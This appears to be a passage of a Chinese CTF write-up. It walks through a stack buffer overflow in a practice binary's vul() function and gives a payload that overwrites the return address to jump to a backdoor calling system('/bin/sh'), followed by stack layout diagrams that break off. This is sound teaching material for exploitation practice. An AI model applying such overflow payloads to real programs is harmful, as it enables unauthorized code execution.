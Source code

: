 我们进去vul()函数中：

```
int vul()
{
  char buf; // [rsp+0h] [rbp-30h]//这里我们可以看出buf距离rbp的地址是0x30， 即48

  puts("I got a message bank ,you can store something in it!");
  puts("input your message");
  read(0, &buf, 0x40uLL); //这里有个很明显得栈溢出漏洞
  return puts("OK , i got it ,let me see if i can bring you fantasy!!!");
} 
```

另外，我们可以在ida函数栏可以看到fantasy函数，发现是后门函数

```
int fantasy()
{
  return system("/bin/sh");
} 
```

于是我们先把它地址先记下来：0x400735

![](img/cf9abd9a665290ead36f2a1da6ad0d0c.png)

**0x05：解题思路：**
我们可通过栈溢出漏洞去覆盖掉ret_addr为 fantasy函数的地址即可拿到pwn掉程序！
于是构造payload：
payload='a'*48+p64(0xdeadbeef)+p64(0x400735)

```
原栈结构大概是这样（如下）：
0000| buf
0008|
0016|
0024| 
0032| 
0040| 
0048| 
0056| rbp
0064| ret_addr
————————————————————————————————————————————
我们构造后，栈结构就变成这样下面这样了，
执行到返回地址时，程序就会返回到我们构造的fantasy后门函数去继续执行！
——————————————————————————————————————————————
0000| a*48
0008|
0016|
0024| 
0032| 
0040| 
```